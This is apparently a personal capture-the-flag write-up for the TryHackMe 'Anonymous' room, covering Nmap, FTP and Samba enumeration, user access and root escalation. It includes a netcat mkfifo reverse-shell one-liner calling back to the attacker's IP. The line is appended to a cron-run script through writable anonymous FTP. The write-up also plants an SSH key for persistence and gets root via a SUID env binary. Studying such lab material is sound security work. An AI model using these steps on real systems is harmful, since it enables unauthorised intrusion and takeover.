

# Anonymous

- https://tryhackme.com/room/anonymous
- March 10, 2022
- easy

---

## Enumeration

### Nmap

1. 21/ftp vsftpd 2.0.8 or later
    - anonymouslogin allowed
    - access rwx directory -> scripts
    - FTP server status: Connected to ::ffff:10.11.8.57

2. 22/ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)

3. 139/tcp Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
4. 445/tcp Samba smbd 3.X - 4.X (workgroup: WORKGROUP)

### FTP 

- anonymous login
- NamelessOne's FTP Server!
- scripts directory (rwx) to anonymous
- 3 files -> `clean.sh`, `removed_files.log`, `to_do.txt`
- get all three to local machine
- nothing interesting till now, may be clean.sh file for later use
- clean.sh create removed_files.log

### Samba

- enumerate with smbmap with anonymous login
- 3 dirs found, `pics` has READ ONLY, other twos - NO ACCESS
- get two image files, `corgo2.jpg`, `puppos.jpeg`

- `binwalk` shows there are hidden file in puppos.jpeg
- analyse `puppos.jpeg`
- there are a lot of info with `exiftool`
- I have spent a lot of time with this image

- I re-entered into ftp and found that the removed_files.log has increasing file size
- is it running with cron jobs?

## User Access

- we have write access in scripts directory in ftp
- add a reverse-shell script in clean.sh file

```sh
#!/bin/bash

...
## added
rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.8.57 4242 >/tmp/f
```
- enter ftp and `put clean.sh` in scripts directory
- wait for a minute and get `namelessone` shell


- To get ssh shell, in local machine create id_rsa pair with `ssh-keygen`, then `cat id_rsa.pub` 
    - in namelessone's shell, create `.ssh` folder under his home folder
    - paste the `id_rsa.pub` content as `authorized_keys`
    - then can enter namelessone's ssh with id_rsa 


## Root Access

```sh
namelessone@anonymous:~$ id
uid=1000(namelessone) gid=1000(namelessone) groups=1000(namelessone),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)

namelessone@anonymous:/tmp$ ls -la $(which env)
-rwsr-xr-x 1 root root 35000 Jan 18  2018 /usr/bin/env
namelessone@anonymous:/tmp$ env /bin/sh -p
# whoami
root

```
- lxd is also vulnerable 



- in lxd, original files are located under `mnt/root` 
- detail of lxd exploit is written in [Gaming Server Room](./TryHackMe/gaming_server/readme.md).
---